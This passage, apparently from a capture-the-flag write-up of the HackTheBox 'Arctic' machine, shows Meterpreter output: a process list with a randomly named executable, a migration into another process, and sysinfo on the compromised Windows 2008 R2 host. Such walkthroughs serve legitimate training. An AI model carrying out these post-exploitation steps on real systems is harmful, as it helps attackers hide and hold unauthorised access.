 <br>3180&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe
 <br>3320&nbsp;&nbsp;2892&nbsp;&nbsp;EKieCvWfF.exe                                         
 <br>3356&nbsp;&nbsp;336&nbsp;&nbsp;&nbsp;powershell.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\syswow64\windowspowershell\v1.0\powershell.exe
 <br>3664&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe</p>

<p>meterpreter > migrate 2320
<br><font color="RoyalBlue">[*]</font> Migrating from 3356 to 2320...
<br><font color="RoyalBlue">[*]</font> Migration completed successfully.
<br>meterpreter > sysinfo
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: ARCTIC
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Windows 2008 R2 (Build 7600).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;: x64
<br>System Language : el_GR
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: HTB
<br>Logged On Users : 1
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: x64/windows
<br>meterpreter ></p>
</div>
</font>
